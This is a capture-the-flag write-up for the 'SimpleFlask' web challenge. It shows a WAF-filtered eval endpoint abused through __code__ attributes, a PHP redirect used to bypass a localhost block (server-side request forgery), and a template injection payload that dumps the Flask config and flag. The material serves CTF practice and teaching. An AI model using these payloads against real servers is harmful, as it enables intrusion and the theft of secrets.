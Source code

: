 # SimpleFlask

## Index page

```py
# -*- coding: utf-8 -*-
from flask import Flask, request
import requests
from waf import *
import time
app = Flask(__name__)

@app.route('/ctfhint')
def ctf():
    hint =xxxx # hints
    trick = xxxx # trick
    return trick

@app.route('/')
def index():
    # app.txt
@app.route('/eval', methods=["POST"])
def my_eval():
    # post eval
@app.route(xxxxxx, methods=["POST"]) # Secret
def admin():
    # admin requests
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=8080)
```

## Solution

Here we can send values to the `/eval` endpoint and execute arbitrary python commands, but we also have a `waf` filter. 
In eval values we can not use symbols `(){}[]`, some words :`__class__` and etc.

So, to get some `tricks` and `hints` from the `ctf` function we can use function object's attributes like `.__code__.co_consts` and `.__code__.co_names`. Let’s look to the result:

**request:**
```
POST /eval HTTP/1.1
Host: 124.70.206.91:10000
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

eval=ctf.__code__.co_consts
```

**result:**
```
(None, 'the admin route :h4rdt0f1nd_9792uagcaca00qjaf<!-- port : 5000 -->', 'too young too simple')
```

And for the payload `admin.__code__.co_names`:
```
('request', 'form', 'waf_ip', 'waf_path', 'len', 'requests', 'get', 'format', 'text')
``` 

Now we know the admin route: `/h4rdt0f1nd_9792uagcaca00qjaf`. 

The answer from the server by this route;
```
post ip=x.x.x.x&port=xxxx&path=xxx => http://ip:port/path
```

But, when we made a request to the `127.0.0.1` and port `5000` we got the error message: `hacker?`.

So, we understand that we can’t make requests to localhost. But we saw that the admin handler uses the `requests` library. That means that we can use location redirect to redirect the request on localhost.

Let’s create the request to our server and redirect the request to `127.0.0.1:5000` and we got the answer:
```
import flask
from xxxx import flag
app = flask.Flask(__name__)
app.config['FLAG'] = flag
@app.route('/')
def index():
    return open('app.txt').read()
@app.route('/<path:hack>')
def hack(hack):
    return flask.render_template_string(hack)
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000)
```

Now we only need to send payload with template injection attack and get the `flag` from flask config.

Redirect looks like:
```
<?php
header("Location: http://127.0.0.1:5000/{{config.items()}}");
?>
```

The answer is:
```

[("JSON_AS_ASCII", True), ("USE_X_SENDFILE", False), ("SESSION_COOKIE_SECURE", False), ("SESSION_COOKIE_PATH", None), ("SESSION_COOKIE_DOMAIN", None), ("SESSION_COOKIE_NAME", "session"), ("MAX_COOKIE_SIZE", 4093), ("SESSION_COOKIE_SAMESITE", None), ("PROPAGATE_EXCEPTIONS", None), ("ENV", "production"), ("DEBUG", False), ("SECRET_KEY", None), ("EXPLAIN_TEMPLATE_LOADING", False), ("MAX_CONTENT_LENGTH", None), ("APPLICATION_ROOT", "/"), ("SERVER_NAME", None), ("FLAG", "GACTF{wuhUwuHu_a1rpl4n3}"), ("PREFERRED_URL_SCHEME", "http"), ("JSONIFY_PRETTYPRINT_REGULAR", False), ("TESTING", False), ("PERMANENT_SESSION_LIFETIME", datetime.timedelta(31)), ("TEMPLATES_AUTO_RELOAD", None), ("TRAP_BAD_REQUEST_ERRORS", None), ("JSON_SORT_KEYS", True), ("JSONIFY_MIMETYPE", "application/json"), ("SESSION_COOKIE_HTTPONLY", True), ("SEND_FILE_MAX_AGE_DEFAULT", datetime.timedelta(0, 43200)), ("PRESERVE_CONTEXT_ON_EXCEPTION", None), ("SESSION_REFRESH_EACH_REQUEST", True), ("TRAP_HTTP_EXCEPTIONS", False)]
```

